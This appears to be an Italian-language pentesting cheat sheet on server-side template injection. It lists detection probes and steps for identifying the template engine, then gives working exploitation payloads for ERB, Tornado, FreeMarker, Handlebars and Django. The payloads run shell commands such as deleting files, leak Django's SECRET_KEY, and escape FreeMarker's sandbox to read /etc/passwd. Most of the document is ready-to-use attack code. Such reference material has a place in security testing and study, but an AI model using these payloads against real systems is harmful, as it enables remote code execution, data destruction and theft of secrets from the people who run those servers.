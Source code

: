 # Caratteri di verifica:
```
${{<%[%'"}}%\
```

# Detection
* Usare i simboli base per vedere se qualcuno causa qualche effetto indisiderato (come rendere invisibile una parte di testo);
* Inserire fra l'apertura e la chiusura 7*7. Se viene stampato 49 allora è responsive e vulnerabile;

# Identification
* Causare uno stacktrace per leggere il nome del template engine usato (inserendo banalmente una variabile insistente, come: ${my_var});
* Trovare qualche informazione nel codice sorgente;
* Leggere la documentazione del template rilevato.

# Exploitation
(ricordati di codificare i payload in URL syntax)
## ERB
```
<%= system("rm /path/to/file.txt") %>
```

## Tornado
```
{% import os %}
{{os.system('rm /path/to/file.txt')
```

## FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm /path/to/file.txt") }
```

## Handlebars
```
{{this}}
```
Vulnerabile se ritorna:
```
[Object object]
```


- Oppure

```
Ciao, funziona!{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /path/to/file.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## Django
* Per mostrare tutti gli oggetti:
```
{% debug %}
```
* Per interagire con essi:
```
(Es. SECRET_KEY: valore segreto che potrebbe contenere chiavi autenticative)
{{settings.SECRET_KEY}}
```

## More
...

# Sandbox Escape
Relativamente al linguaggio usato, deve essere codificata una chain di metodi in grado di ottemperare la nostro scopo bypassando le protenzioni della standbox. 

## FreeMarker (Java)
* read file (output: hex):
```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```




